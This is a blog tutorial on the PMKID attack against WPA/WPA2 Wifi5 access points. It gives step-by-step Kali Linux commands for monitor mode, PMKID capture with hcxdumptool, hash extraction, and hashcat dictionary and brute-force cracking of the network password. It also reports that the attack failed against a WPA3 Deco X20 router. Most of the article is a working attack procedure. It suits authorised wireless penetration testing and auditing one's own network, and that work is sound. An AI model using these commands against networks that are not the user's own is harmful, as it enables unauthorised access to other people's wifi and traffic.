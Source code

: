 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) without client involved.  That is 4-way handshake is no longer required.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods (except Fake Access Point attack) have been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020) and [KR00K attack](https://github.com/hexway/r00kie-kr00kie)  (CVE-2019-15126) (tested on March 21, 2020).  KR00K attack fails as Deco X20 is using Qualcomm IPQ8070 chipset instead of Broadcom.  I think PMKID attack cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)  
- All tested clients are in AC mode with WPA2  

The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan -c 36
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3 -c 36
```

When you see ```[FOUND PMKID]``` or/and ```[FOUND PMKID CLIENT-LESS]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  
Updated on March 21, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|


